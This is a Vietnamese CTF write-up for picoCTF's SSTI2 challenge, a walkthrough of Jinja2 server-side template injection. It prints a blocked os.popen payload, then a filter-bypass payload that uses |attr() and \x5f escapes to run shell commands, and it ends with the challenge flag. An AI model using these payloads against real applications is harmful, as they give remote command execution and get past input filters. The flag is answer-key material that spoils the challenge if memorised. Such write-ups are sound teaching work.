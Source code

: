 # SSTI2
Giống như bài SSTI1, bài này cũng là 1 bài khai thác lỗ hổng SSTI.

![image](https://github.com/user-attachments/assets/0fa6e176-6158-4e20-8700-8ed6cb0ff4f0)

SSTI (Server-Side Template Injection) là một lổ hổng web xảy ra khi kẻ tấn công có thể chèn đầu vào độc hại vào công cụ mẫu của ứng dụng web.

Ta thử nghiệm payload:

``` python 
{{7*7}}
```

Và kết quả là:

![image](https://github.com/user-attachments/assets/4454c568-c9fc-4afb-8025-9694bc532c15)

Template engine đang được sử dụng là `Jinja2` giống như bài SSTI1.

Tiếp tục nhập thử `payload` khai thác SSTI sau (giống như ở bài SSTI1):

``` python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Và kết quả là:

![image](https://github.com/user-attachments/assets/7037550f-6d71-4e4c-ad3e-240afec9cc55)

Có vẻ như trang web đã chặn hoạt động của `payload` cũ. Giờ ta cần một `payload` khác không bị chặn bởi trang web.

Tra cứu một chút, ta nhận được một số thông tin sau:

- Sử đụng `|attr()` để thay thế kí hiệu dấu `.`
- Sử dụng `\x5f` để thay thế cho dấu gạch dưới
- Sử dụng `__getitem__()` để 
WAF (Web Application Firewall) không tìm thấy chuỗi `builtins` và `import`.

``` python 
{{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')("\x5f\x5fimport\x5f\x5f")('os')|attr('popen')('cat flag')|attr('read')()}}
```

Sử dụng payload trên và ta có flag:

``` 
picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}
```
